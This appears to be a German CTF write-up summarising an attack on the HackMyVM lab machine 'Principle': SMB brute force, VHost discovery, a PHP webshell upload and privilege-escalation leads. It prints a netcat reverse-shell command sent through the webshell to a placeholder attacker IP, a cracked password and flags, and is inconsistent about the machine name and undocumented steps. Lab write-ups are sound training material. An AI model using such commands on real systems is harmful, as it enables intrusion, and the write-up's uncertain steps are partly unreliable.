 # Principle - HackMyVM (Medium)

![Principle.png](Principle.png)

## Übersicht

*   **VM:** Principle
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Principle)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 18. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Principle_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, die User- und Root-Flags der Maschine "Principle" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines virtuellen Hosts (`thetruthoftalos.hmv`), auf dem eine Webanwendung lief. Diese Anwendung war anfällig für eine Schwachstelle (vermutlich File Upload oder Command Injection über `index.php`), die das Hochladen und Ausführen einer PHP-Webshell (`ben.php`) im `/uploads/`-Verzeichnis ermöglichte. Dies führte zu initialem Zugriff als `www-data`. Die weitere Eskalation zu Root wurde im Bericht nicht vollständig dokumentiert, aber es wurden vielversprechende Vektoren identifiziert: eine SUID-Root-Binary (`/usr/bin/updater`) und eine `sudo`-Regel, die `www-data` erlaubte, `/usr/bin/cat` als Benutzer `talos` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `smbclient`
*   `crackmapexec`
*   `nbtscan` (impliziert für SMB-Enumeration)
*   `wfuzz`
*   `nc` (netcat)
*   `cat`
*   `xargs`
*   `tr`
*   `msfconsole` (impliziert für die Suche, aber kein Exploit ausgeführt)
*   `smbmap` (impliziert für SMB-Enumeration)
*   `showmount` (impliziert für NFS-Enumeration)
*   `mount` (impliziert für NFS-Enumeration)
*   `ngrep` (impliziert für Netzwerkanalyse)
*   `wget`
*   `exiftool` (impliziert für Bildanalyse)
*   `strings` (impliziert für Bildanalyse)
*   `steghide` (impliziert für Bildanalyse)
*   `stegsnow` (impliziert für Bildanalyse)
*   `binwalk` (impliziert für Bildanalyse)
*   `curl`
*   `find`
*   `ss`
*   `sudo`
*   Standard Linux-Befehle (`ls`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Principle2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration (Web, SMB, NFS, VHost):**
    *   IP-Adresse des Ziels (192.168.2.131) mit `arp-scan` identifiziert. Hostname `principle2.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 80 (HTTP, Nginx 1.22.1 mit Apache-Default-Titel), 111 (RPCBind), 139/445 (SMB, Samba 4.6.2) und 2049 (NFS).
    *   `gobuster` auf `http://principle2.hmv` fand keine signifikanten Pfade.
    *   SMB-Enumeration (`enum4linux-ng` oder `crackmapexec`) fand die Shares `public` und `hermanubis` sowie die Benutzer `hermanubis`, `talos`, `byron`, `melville`.
    *   `crackmapexec smb` knackte das Passwort für `talos` zu `s13!34g$3FVA5e@ed`.
    *   `wfuzz` VHost-Enumeration fand `thetruthoftalos.hmv`. Dieser wurde in `/etc/hosts` eingetragen.
    *   Die Startseite von `http://thetruthoftalos.hmv` zeigte "NOTHING". `gobuster` auf diesem VHost fand `index.php` und das Verzeichnis `/uploads/`.
    *   Die `index.php` enthielt ein Formular, das einen `filename`-Parameter entgegennahm und auf eine mögliche Command Injection oder LFI hindeutete. Im `/uploads`-Verzeichnis wurden thematisch passende `.txt`-Dateien gefunden.
    *   Steganographie-Versuche auf eine `newjerusalem.jpg` (Herkunft unklar) blieben erfolglos.

2.  **Initial Access (Web RCE als `www-data`):**
    *   Eine (nicht im Detail gezeigte) Schwachstelle, vermutlich in `index.php` auf `thetruthoftalos.hmv` oder durch direkten Upload, ermöglichte das Platzieren einer PHP-Webshell (`ben.php`) im Verzeichnis `/uploads/`.
    *   Durch Aufrufen von `http://thetruthoftalos.hmv/uploads/ben.php?cmd=id` wurde RCE als `www-data` bestätigt.
    *   Mittels `curl "http://thetruthoftalos.hmv/uploads/ben.php?cmd=nc%20-e%20/bin/bash%20ANGRIFFS_IP%204444"` wurde eine Reverse Shell zu einem Netcat-Listener als `www-data` aufgebaut.

3.  **Privilege Escalation (Ansätze):**
    *   Als `www-data` wurde eine SUID-Root-Datei `/usr/bin/updater` (Gruppe `melville`) gefunden.
    *   `sudo -l` als `www-data` zeigte, dass `/usr/bin/cat` als Benutzer `talos` ohne Passwort ausgeführt werden durfte: `(talos) NOPASSWD: /usr/bin/cat`.
    *   Versuche, `/etc/shadow` mit `sudo -u talos cat /etc/shadow` zu lesen, scheiterten an den Rechten von `talos`.
    *   *Der Bericht endet hier, bevor eine erfolgreiche Eskalation zu `talos` oder `root` gezeigt wird.*

4.  **Flags (wie im Bericht angegeben, aber der Weg dorthin ist nicht vollständig dokumentiert):**
    *   User-Flag: `c7d0a8de1e03b25a6f7ed2d91b94dad6`
    *   Root-Flag: `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Wichtige Schwachstellen und Konzepte

*   **VHost Enumeration:** Auffinden der Subdomain `thetruthoftalos.hmv`.
*   **Schwache SMB-Credentials:** Das Passwort für den Benutzer `talos` konnte mittels Brute-Force geknackt werden.
*   **Webshell Upload / RCE:** Eine (nicht detailliert beschriebene) Schwachstelle erlaubte das Hochladen und Ausführen einer PHP-Webshell.
*   **SUID Binary:** Die Datei `/usr/bin/updater` (SUID Root, Gruppe `melville`) wurde als potenzieller Eskalationsvektor identifiziert.
*   **Unsichere `sudo`-Regel:** `www-data` durfte `cat` als `talos` ausführen, was das Lesen von Dateien im Kontext von `talos` ermöglicht.

## Flags

*   **User Flag:** `c7d0a8de1e03b25a6f7ed2d91b94dad6`
*   **Root Flag:** `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Tags

`HackMyVM`, `Principle`, `Medium`, `VHost Enumeration`, `SMB Brute-Force`, `Webshell Upload`, `RCE`, `SUID Binary`, `sudo Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Nginx`, `Samba`, `NFS`, `Apache` (falscher Titel)
